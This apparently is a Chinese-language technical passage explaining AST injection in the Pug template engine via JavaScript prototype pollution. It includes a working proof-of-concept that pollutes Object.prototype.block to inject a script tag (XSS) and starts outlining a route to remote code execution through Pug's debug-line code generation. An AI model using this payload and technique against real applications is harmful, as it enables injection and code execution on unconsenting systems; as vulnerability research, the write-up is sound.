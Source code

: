 以刚刚生成的语法树结构举例，解析顺序为：

1.  Block
2.  Tag
3.  Block
4.  Code
5.  …?

注意第4步解析 `node.Type` 为 `Code` 类型，会执行如下代码：

```plain
case 'Code':
        case 'While':
          if (ast.block) { // 注意这里
            ast.block = walkAST(ast.block, before, after, options);
          }
```

1.  判断 `ast.block` 属性是否存在，此处的 `ast` 即当前ast语法树的节点
2.  如果存在，继续递归解析 block

#### 结合原型链污染

如果某处存在原型链污染漏洞，使得

```plain
Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};
```

那么 `ast.block` 就会访问到 `ast.__proto__.block` ，即`Object.prototype.block` 的属性

此时代码输出结果，导致了XSS

```plain
const pug = require('pug');

Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html); // <h1>It works<script>alert(origin)</script></h1>
```

## RCE

我们知道pug本质上是将一段代码，如 `h1 =msg` 编译为一段js代码，背后其实就是生成语法树+ `new Function`

因此如果能通过AST Injection插入节点，并使之成为代码，即可达到远程代码执行的目的。

刚好pug中就有如下代码：

```plain
// /node_modules/pug-code-gen/index.js

if (debug && node.debug !== false && node.type !== 'Block') {  
    if (node.line) {  
        var js = ';pug_debug_line = ' + node.line;  
        if (node.filename)  
            js += ';pug_debug_filename = ' + stringify(node.filename);  
        this.buf.push(js + ';');  
    }  
}
```
